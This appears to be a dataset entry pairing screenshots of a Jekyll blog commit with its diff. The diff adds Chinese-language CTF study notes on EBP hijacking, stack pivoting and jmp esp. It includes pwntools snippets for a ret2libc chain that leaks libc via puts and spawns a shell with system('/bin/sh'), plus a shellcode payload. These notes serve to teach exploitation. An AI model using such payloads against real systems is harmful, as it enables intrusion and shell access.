

Before and after one commit to hyq2/hyq2.github.io, a Jekyll site: the page built from _posts/2021-02-22-ebo.markdown, in a window 1280 px wide and 1400 px high, scrolled down 279 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
修改文件: _posts/2021-02-22-ebo.markdown

````diff
--- a/_posts/2021-02-22-ebo.markdown
+++ b/_posts/2021-02-22-ebo.markdown
@@ -4,3 +4,85 @@ title:  "ebp"
 date:   2020-01-03 19:31:29 +0900
 categories: jekyll update
 ---
+
+### ebp 劫持
+
+#### 一、修改main_ebp -> （实质）间接修改main_return_address
+
+main_ebp -> target_addr
+
+```python
+main -> func(a,b)
+
+
+
+
+b
+a
+func_return_main
+				<= func_ebp = main_ebp (to fake)
+
+
+
+				<= fun_esp
+
+main_return_address -> target_func
+main_ebp -> target_address
+
+
+```
+
+```python
+paylaod = padding + p32(target_func) + p32(target_addr)
+```
+
+**即修改main_ebp ,在 main 函数返回时，leave ;	ret ;**
+
+**leave 后 esp = ebp ，再pop ebp;那么 esp -> 返回地址。即在之前布置ebp的高4字节处改为system -> getshell**
+
+#### 栈劫持
+
+对于wiki上的 ret2libc 的题可以利用栈劫持(pop_ebp + leave_ret)去做(即只利用了一次栈溢出) //没有
+
+```python
+payload   = padding + (esp_padding?)  + fake_ebp
+
+payload += p32(elf.plt["puts"]) + p32(pop_ret) + p32(elf.got["puts"])
+
+payload += p32(elf.plt["gets"]) + p32(pop_ret) + p32(bss_addr)
+
+payload += p32(pop_ebp_ret) + p32(bss_addr) + p32(leave_ret)
+#ebp -> bss  ; mov esp,ebp  ; pop ebp  ;  ret ->system
+
+p.sendlineafter("Can you find it!?",payload)
+puts_addr = u32(p.recv(4))
+libc_base = puts_addr - libc.symbols["puts"]
+libc.address = libc_base
+system = libc.symbols["system"]
+binsh = libc.search("/bin/sh").next()
+
+payload = "junk" + p32(system) + "junk" + p32(binsh)
+p.sendline(payload)
+p.interactive()
+```
+
+
+
+#### 三、 若有，可以利用 jmp  esp;
+
+```
+jmp_esp_addr = 0x8048504
+shellcode = " " # 短的sc
+padding = ''
+payload = ''
+payload +=shellcode.ljust(padding + fake_ebp ,"\x90")
+payload += asm("sub esp,40;jmp esp")
+hyq.sendlineafter(" ",payload)
+hyq.interactive()
+```
+
+即劫持eip = esp ; 利用往栈上写指令，写shellcode 并执行 -> getshell.
+
+
+
+参考链接：https://www.bilibili.com/video/BV1JV411m7PC?p=3
````
